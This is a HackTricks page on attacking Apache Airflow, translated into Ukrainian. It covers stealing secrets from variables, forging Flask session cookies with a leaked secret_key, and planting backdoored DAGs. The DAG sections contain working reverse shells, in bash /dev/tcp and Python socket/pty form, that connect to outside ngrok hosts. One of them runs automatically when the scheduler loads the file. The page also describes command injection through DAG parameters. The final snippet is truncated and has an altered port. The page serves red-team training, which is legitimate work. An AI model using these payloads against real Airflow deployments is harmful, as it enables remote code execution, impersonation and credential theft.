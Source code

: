 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) служить платформою для **орchestrating та планування даних pipelines або workflows**. Термін "орchestrating" в контексті даних pipelines означає процес організації, координації та управління складними даними workflows, що походять з різних джерел. Основна мета цих оркестрованих даних pipelines полягає в наданні оброблених та споживаних наборів даних. Ці набори даних широко використовуються безліччю додатків, включаючи, але не обмежуючись, інструментами бізнес-аналітики, моделями науки про дані та машинного навчання, які є основою функціонування додатків великих даних.

В основному, Apache Airflow дозволить вам **планувати виконання коду, коли щось** (подія, cron) **відбувається**.

### Local Lab

#### Docker-Compose

Ви можете використовувати **файл конфігурації docker-compose з** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), щоб запустити повне середовище apache airflow docker. (Якщо ви на MacOS, переконайтеся, що ви виділили принаймні 6 ГБ оперативної пам'яті для віртуальної машини docker).

#### Minikube

Один із простих способів **запустити apache airflow** - це запустити його **з minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі конфігурації:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Перед початком атаки на Airflow ви повинні зрозуміти **як працюють дозволи**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Якщо у вас є **доступ до веб-консолі**, ви можете отримати доступ до деякої або всієї наступної інформації:

* **Змінні** (Користувацька чутлива інформація може зберігатися тут)
* **З'єднання** (Користувацька чутлива інформація може зберігатися тут)
* Доступ до них за адресою `http://<airflow>/connection/list/`
* [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може зберігатися тут)
* Список **користувачів та ролей**
* **Код кожного DAG** (який може містити цікаву інформацію)

#### Retrieve Variables Values

Змінні можуть зберігатися в Airflow, щоб **DAG** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатні дозволи**, ви можете отримати доступ до них у GUI за адресою `http://<airflow>/variable/list/`.\
Airflow за замовчуванням покаже значення змінної в GUI, однак, відповідно до [**цього**](https://marclamberti.com/blog/variables-with-apache-airflow/), можливо встановити **список змінних**, значення яких з'являться як **зірочки** в **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Однак ці **значення** все ще можна **отримати** через **CLI** (вам потрібно мати доступ до БД), **виконання довільного DAG**, **API** доступ до кінцевої точки змінних (API потрібно активувати) і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть на Дії -> Експорт**.\
Інший спосіб - виконати **брутфорс** до **прихованого значення**, використовуючи **фільтрацію пошуку**, поки ви його не отримаєте:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Якщо конфігурація **`expose_config`** встановлена на **True**, з **ролі Користувач** і **вище** можуть **читати** **конфігурацію в вебі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим дійсним ключем може **створити свій власний підписаний cookie, щоб видавати себе за будь-який інший обліковий запис користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE в Airflow worker)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який надішле вам **зворотний шелл.**\
Зверніть увагу, що цей зворотний шелл буде виконуватись всередині **контейнера airflow worker**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

Якщо ви налаштуєте щось на **виконання в корені коду**, на момент написання цього тексту, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Створення DAG

Якщо вам вдасться **зламати машину всередині кластера DAG**, ви зможете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

#### Впровадження коду в DAG

Коли ви виконуєте DAG з GUI, ви можете **передавати аргументи** йому.\
Отже, якщо DAG не правильно закодований, він може бути **вразливим до впровадження команд.**\
Саме це сталося в цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати впровадження команд у DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, та ж вразливість може виникнути з **змінними** (зверніть увагу, що з достатніми привілеями ви могли б **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати ін'єкцію команди.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
